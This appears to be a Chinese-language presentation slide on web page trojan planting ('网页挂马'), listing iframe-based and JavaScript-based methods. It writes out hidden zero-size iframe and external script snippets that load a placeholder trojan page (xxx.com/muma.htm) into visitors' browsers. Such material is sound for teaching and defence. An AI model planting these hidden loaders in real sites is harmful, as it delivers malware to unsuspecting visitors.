

# 网页挂马
常见的网页挂马方式
框架挂马
<iframe src=http://www.xxx.com/muma.htm width=0 height=0></iframe>

js文件挂马
document.write("<iframe width=0 height=0 src='地址'></iframe>");
<script language=javascript src=xxx.js></script>